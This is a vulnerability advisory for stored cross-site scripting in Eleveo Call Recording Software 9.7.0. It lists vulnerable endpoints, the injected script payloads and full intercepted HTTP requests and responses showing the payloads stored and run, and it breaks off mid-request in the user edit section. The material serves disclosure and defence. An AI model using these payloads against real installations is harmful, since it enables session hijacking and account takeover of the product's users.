# Eleveo Call Recording Software 9.7.0 Multiple Stored Cross-Site Scripting

> - https://vuldb.com/vuln/398555
> - https://vuldb.com/submit/894893
> - https://www.cve.org/CVERecord?id=CVE-2026-85405

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 18/7/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 3/9/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

Multiple authenticated stored Cross-Site Scripting (XSS) vulnerabilities in Eleveo Call Recording 9.7.0 allowing remote attackers to inject arbitrary web script or HTML via the name parameter in the (1) Group Add, (2) Group Edit form, (3) Group View, or (4) User Search page; the username parameter in (5) Audit Log page, (6) User Edit form, (7) Group View, or (8) User Search page. Injected payloads are stored in the application and executed in the context of other authenticated users when they access the affected pages. This allows attackers to perform actions such as session hijacking, executing malicious scripts, or manipulating the content displayed to users.

## Implications

- Execution of arbitrary scripts in the context of authenticated users.
- Account compromise through session hijacking or theft of authentication tokens.
- Manipulation of application functionality or display by injecting malicious content. 
- Disclosure of sensitive data accessible via the victim’s session.

## Vulnerability Type

Multiple Stored Cross-Site Scripting

## Steps to Reproduce

### (1) | Stored XSS in Group Add Form (/callrec/roleAddAction.do)

1. Login as a user with **Users and Roles** privilege, then navigate to **Users**
2. Click **New Group**, or select an existing group and click **Edit Group**



3. Enter any placeholder group name and proceed with **New Group** or **Edit Group**



4. Using Burp Suite, intercept the request and modify the group name parameter to the payload: `XSS"><script>alert('3l5h0pky')</script>`



```http
POST /callrec/roleAddAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; JSESSIONID=***TRUNCATED***
Content-Length: 474
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/group_add.jsp?viewRoleId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&userId=8&dispatch=add&viewRoleId=1&name=XSS"><script>alert('3l5h0pky')</script>&roleParentId=1&number=&actionId=5&actionId=9&actionId=12&actionId=14&actionId=8&actionId=3&actionId=7&actionId=10&actionId=4&actionId=13&actionId=6&actionId=15&actionId=2&actionId=1&actionId=16&viewId=5%7C9%7C12%7C14%7C8%7C3%7C7%7C10%7C4%7C13%7C6%7C15%7C2%7C1%7C16%7C&description=&value%28filter_1%29=-1&value%28conj_1%29=END
```

```http
HTTP/1.1 200
Date: Tue, 10 Mar 2026 17:44:09 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 12286


***TRUNCATED***
  <form name="RoleRemoveForm" method="post" action="/callrec/roleRemoveAction.do" onsubmit="return confirmDeleteGroup('XSS"><script>alert('3l5h0pky')</script>')"><div><input type="hidden" name="org.apache.struts.taglib.html.TOKEN" value="5b6c2787b65341438ed9ce87fc63bafe"></div>
***TRUNCATED***
```

5. Forward the request and observe that the injected JavaScript executes automatically without user interaction




### (2) | Stored XSS in Group Edit Form (/callrec/roleEditAction.do)

```http
POST /callrec/roleEditAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; JSESSIONID=***TRUNCATED***
Content-Length: 589
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/group_edit.jsp?viewRoleId=9
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&userId=8&originalName=XSS%22%3E%3Cscript%3Ealert%28%273l5h0pky%27%29%3C%2Fscript%3E&roleId=9&name=XSS"><script>alert('3l5h0pky')</script>&parentId=1&number=&actionId=5&actionId=9&actionId=12&actionId=14&actionId=8&actionId=3&actionId=7&actionId=10&actionId=4&actionId=13&actionId=6&actionId=15&actionId=2&actionId=1&actionId=16&viewId=5%7C9%7C12%7C14%7C8%7C3%7C7%7C10%7C4%7C13%7C6%7C15%7C2%7C1%7C16%7C&description=XSS%22%3E%3Cscript%3Ealert%28%273l5h0pky%27%29%3C%2Fscript%3E&value%28filter_1%29=-1&value%28conj_1%29=END
```

```http
HTTP/1.1 200
Date: Tue, 10 Mar 2026 17:54:29 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 12348


***TRUNCATED***
  <form name="RoleRemoveForm" method="post" action="/callrec/roleRemoveAction.do" onsubmit="return confirmDeleteGroup('XSS"><script>alert('3l5h0pky')</script>')"><div>
***TRUNCATED***
```

6. The stored script can be delivered to victims by waiting for them to access the group management interface or by sharing one of the following URLs:


### (3) | Stored XSS in Group View Page (/callrec/index_group.jsp)

- https://example.local/callrec/index_group.jsp?viewRoleId=9


  

### (4) | Stored XSS in User Search Page (/callrec/user_search.jsp)

- https://example.local/callrec/user_search.jsp?viewRoleId=9




### (5) | Stored XSS in Audit Log Page (/callrec/userAuditView.do)

1. Navigate to **Users**, then click **Edit** beside any user



2. Click **Save** to submit the user modification request



3. Using Burp Suite, intercept the request and modify the username value to: `"><script>alert('spark')</script>`, then forward the request

```http
POST /callrec/userEditAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Content-Length: 340
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/user_edit.jsp?userId=9&roleId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&login2="><script>alert('spark')</script>&password2=&passwordVerify=&firstName=test2&lastName=&email=&phoneNumber=&value%28filter_1%29=-1&value%28conj_1%29=END&roleId=1&viewRoleId=&loginOriginal=test2&roleIdOriginal=1&ldapUserOriginal=SQL&phoneNumberOriginal=&userId=9&userRoleId=1&ldapOriginal=false
```



4. Navigate to **Audit** and observe that the malicious script executes when the audit logs are displayed

```http
GET /callrec/userAuditView.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/menu_users.jsp
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

```

```http
HTTP/1.1 200
Date: Sun, 08 Mar 2026 22:23:57 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 61294


***TRUNCATED***
                    <div class="input multiselect fleft halfSize">
                        <label>Choose Users</label>
                        <select name="selectedUsers" multiple="multiple" size="5" id="selectedUsers"><option value="%">
                                -All-
                            </option>

                                <option value=""><script>alert('3l5h0pky')</script>">"><script>alert('3l5h0pky')</script></option>

                                <option value="<h1>test2</h1>"><h1>test2</h1></option>
***TRUNCATED***
```




### (6) | Stored XSS in User Edit Page (/callrec/userEditAction.do)

1. Login as a user with username editing privileges
2. Navigate to **Users**, then click **Edit** beside any existing user



3. Click **Save**



4. Using Burp Suite, intercept the request and modify the **login2** parameter to: `test2x');alert('3l5h0pky`

```http
POST /callrec/userEditAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Content-Length: 340
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/user_edit.jsp?userId=9&roleId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

